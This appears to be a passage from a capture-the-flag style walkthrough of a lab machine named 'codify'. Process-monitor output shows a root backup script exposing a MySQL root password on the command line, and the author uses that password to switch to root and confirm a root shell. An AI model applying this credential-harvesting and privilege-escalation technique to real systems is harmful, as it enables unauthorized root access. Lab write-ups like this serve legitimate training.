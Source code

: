 ```bash
2025/04/08 07:03:39 CMD: UID=0     PID=21348  | /usr/bin/mysqldump --force -u root -h 0.0.0.0 -P 3306 -pkljh12k3jhaskjh12kjh3 mysql                   
2025/04/08 07:03:39 CMD: UID=0     PID=21351  | /bin/bash /opt/scripts/mysql-backup.sh                                                                
2025/04/08 07:03:39 CMD: UID=0     PID=21353  | /bin/bash /opt/scripts/mysql-backup.sh                                                                
2025/04/08 07:03:39 CMD: UID=0     PID=21352  | /usr/bin/mysqldump --force -u root -h 0.0.0.0 -P 3306 -pkljh12k3jhaskjh12kjh3 sys         
```

The exposed password is `kljh12k3jhaskjh12kjh3`.

Let's switch user to `root` using the password.

```bash
joshua@codify:~$ su -
Password: 
root@codify:~# whoami
root
root@codify:~# id
uid=0(root) gid=0(root) groups=0(root)
```

I got a root shell!